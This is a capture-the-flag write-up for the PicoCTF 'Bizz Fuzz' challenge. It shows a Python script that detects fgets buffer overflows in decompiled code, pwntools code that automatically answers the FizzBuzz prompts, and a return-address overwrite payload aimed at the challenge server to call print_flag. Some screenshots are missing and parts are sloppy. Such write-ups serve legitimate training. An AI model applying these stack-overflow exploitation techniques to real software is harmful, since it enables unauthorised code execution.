

# PicoCTF Bizz Fuzz

## Challenge Overview

The target binary is vulnerable to **buffer overflow** via `fgets()`. Before reaching the vulnerable function, it also asks a series of **FizzBuzz-style questions** using `get_some_data()` and other helper functions.  

The goal of this exploit is to:

1. Automatically answer the FizzBuzz prompts.
2. Navigate through initial functions safely.
3. Trigger the vulnerable `fgets()` call.
4. Overflow the buffer to overwrite the return address and call `print_flag()`.

---


## Finding the buffer

first of all we have to find the buffer that is causes buffer overflow to find it we first need to extract the c code from ghidra as this challange does bnot come with an source code 

so now we need to find and function that has an buffer and also takes in input using `fget()` we will automate the process by using this python script 


```python

import re


def main():
    with open('vuln.c') as f:
        all_lines = f.read().splitlines()

    lines = []

    for i, line in enumerate(all_lines):
        if line.startswith('  char local_') or 'fgets(local_' in line:
            lines.append((i, line.strip()))

    print('Parsed lines. Total:', len(lines), '/', len(all_lines))
    i = 0

    while i < len(lines):   
        n, line = lines[i]

        if 'char local' in line:
            buffer = int(re.findall(r'char local_.. \[(\d+?)\];', line)[0])
            i += 1

            _, next_line = lines[i]

            while 'fgets(local' in next_line and i < len(lines):
                used_buffer_str = re.findall(
                    r'fgets\(local_..,([x0-9a-f]+?),.*?\);', next_line)[0]

                used_buffer = int(
                    used_buffer_str, 16 if 'x' in used_buffer_str else 10)

                if used_buffer > buffer:
                    print('Reserved:', buffer, 'B. Used:', used_buffer, 'B')
                    print('Function name:', all_lines[n - 3])

                i += 1

                if i < len(lines):
                    _, next_line = lines[i]


if __name__ == '__main__':
    main()
```

This Python script is a buffer overflow vulnerability detector that analyzes a C source file (vuln.c) to find potential buffer overflow issues caused by fgets() misuse

What It Does

1. Reads the C file (vuln.c) and splits it into lines.

2. Identifies risky code patterns:

   - Lines declaring buffers (e.g., char local_xx [SIZE];).

   - Lines calling fgets() on those buffers.

3. Checks for mismatches between:

   - The buffer size (declared in char local_xx [SIZE]).   

   - The size passed to fgets() (second argument).

Flags vulnerabilities where fgets() tries to write more data than the buffer can hold.


we get this result:


now lets see what is at this funtion 

i rename the function to has_bof()


we can see the buffer overflow if it was to find them manually it would have taken so long 



we can see that the buffer is 87 bytes but we are overflowing it by writing 348 bytes


## Finding flag/win function 

now we have to find the flag funtion we know that we fopen() function is used to open an file i used the xrefrence to fopen and found the funtion i already renamed it to flag function 


now lets open the flag funtion


## finding & renaming funtions

now we have found the overflow & the flag funtion we can now move to the exploitation development


but before that we need to find the funtion that calls the `has_bof()` funtion we could use the source code that ghidra has given us to trace back the has_bof function to main

we know that `FUN_0808ae73` is the address of has_bof() so lets see where is it called in our c code 

it is called at `FUN_08109f08` lets rename it to `CALL_BOF`

FUN_08109f08 is called by `FUN_081313b8` lets rename it to `CALL_CALL_BOF`

and it is called by `FUN_08143ffd` we will rename it to `CALL_CALL_CALL_BOF`

now if we trace back further we found that `CALL_CALL_CALL_BOF` is called 5 times we need to find the right way to main


so lets go back to ida and solve it using xrefrence


by using it we can found that it is called by `FINAL_BOF()` i renamed it and this is the final funtion which is called by the `main` 
you can cheack the other i you donot trust me :)


so the callstack look like

```bash

main
  └─> FINAL_BOF()
        └─> CALL_CALL_CALL_BOF()
              └─> CALL_CALL_CALL_BOF()
                    └─> CALL_CALL_BOF()
                          └─> CALL_BOF()
                                └─> has_bof()

```


## Handling Initial Messages

```python
messages = [
    "fizz", "buzz", "fizz", "fizz", "buzz", "fizz", "fizzbuzz",
    ...
]
```

- The binary outputs a **series of messages** that correspond to FizzBuzz results.
- The script expects them in the list `messages` and checks them line by line.
- `pass_messages(p)`:

```python
def pass_messages(p):
    while len(messages):
        data = p.recvuntil(b'? ').decode().splitlines()
        if len(data) >= 2 and data[0] != messages.pop(0):
            log.error('Unexpected message')
        if len(data) == 3 and data[1] != messages.pop(0):
            log.error('Unexpected message')
        number = int(data[-1].rstrip('? '))
        p.sendline(answer(number))
```

**Explanation:**

1. Waits for the prompt ending with `? `.
2. Splits received lines.
3. Checks the messages against the expected FizzBuzz list.
4. Converts the final number prompt into an integer and sends the correct FizzBuzz answer.

This ensures that the script can safely navigate past **the initial “FizzBuzz” section** without manual input.

---

## FizzBuzz Helper Functions

```python
def answer(n: int) -> bytes:
    if n % 15 == 0: return b'fizzbuzz'
    if n % 3 == 0: return b'fizz'
    if n % 5 == 0: return b'buzz'
    return str(n).encode()
```

- Calculates the FizzBuzz answer for a given number.
- Used to send automated responses.

```python
def get_number(p) -> int:
    return int(p.recvuntil(b'? ').decode().rstrip('? '))
```

- Reads a number prompt from the binary and converts it to an integer.

---

## Navigating Preceding Functions

The binary has **a chain of functions** before reaching the vulnerable `fgets()`. These are handled by:

```python
def pass_function(p):
    number = get_number(p)
    p.sendline(answer(number))
    while (number := get_number(p)) != 1:
        p.sendline(answer(number))
```

- This interacts with functions that expect repeated FizzBuzz-style input until a `1` is reached.

```python
def pass_functions(p, depth: int):
    p.sendlineafter(b'? ', b'0')
    for _ in range(depth):
        pass_function(p)
        p.sendline(b'0')
```

- `depth` determines **how many chained functions to skip**.
- Sending `b'0'` is like telling the binary: **“skip / proceed to next function”**.


inside main we called 

```python
pass_messages(p)


pass_functions(p, 8)  # 0-8
pass_functions(p, 1)
pass_functions(p, 22)

```

the pass_message funtion just covers the section from main to final_bof() in the main it just give right answer till it reaches `final_bof()`

then after this `pass_functions(p, 8)` gives the right ans till it reaches `CALL_CALL_CALL_BOF()` which is at `9` position
after that  `pass_functions(p, 1)` calls the `CALL_CALL_BOF()` inside `CALL_CALL_CALL_BOF()` function and then 
`pass_functions(p, 22)` calls `CALL_BOF()` which is at `22` position in  `CALL_CALL_BOF()` function 


---

## Triggering Vulnerable `fgets()`

```python
for i in range(4):
        p.sendlineafter(b'? ', answer(i + 1))      # first passing 0 to the function will result in not executing the get_some_data() the rest 3 will execute the fget() 
p.sendlineafter(b'? ', b'0')
```

- The first `0` skips execution for the first function.
- Remaining numbers execute subsequent functions until reaching the vulnerable `has_bof`

**Buffer details:**

- The vulnerable function has a buffer of `87` bytes:

```c
char s[87];
fgets(s, N, stdin);
```

- Exploit goal: overwrite the **saved return address**.

---

## Crafting the Payload

```python
offset = 95
junk = b'A' * offset
print_flag_addr = 0x08048656
payload = junk + p32(print_flag_addr)
```

- `offset = 95`: determined via `cyclic` in GDB — distance from buffer start to saved return address.
- `junk = b'A' * 95`: fills buffer + saved EBP.
- `p32(print_flag_addr)`: overwrites return address with the function that prints the flag.

---

### Padding for Alignment

```python
p.sendlineafter(b'? ', b'0' + b' ' * 8 + payload)
```

- `b'0'`: argument for `get_some_data()`.
- `b' ' * 8`: **stack alignment / padding** to ensure payload lands exactly at return address.
- `payload`: actual overflow that triggers `print_flag()`.


---

## Exploit Execution

1. Connect to the remote process:

```python
p = remote("mercury.picoctf.net", 4636)
```

2. Pass initial messages with `pass_messages(p)`.
3. Skip or pass chained functions with `pass_functions(p, depth)`.
4. Navigate to vulnerable `fgets()`.
5. Send the carefully crafted payload to overflow the buffer and call `print_flag()`.

---

## Capture the Flag

upon success !!


> [!NOTE]  
> when exploiting remotly wait for some while as the exploit takes time remotly

---


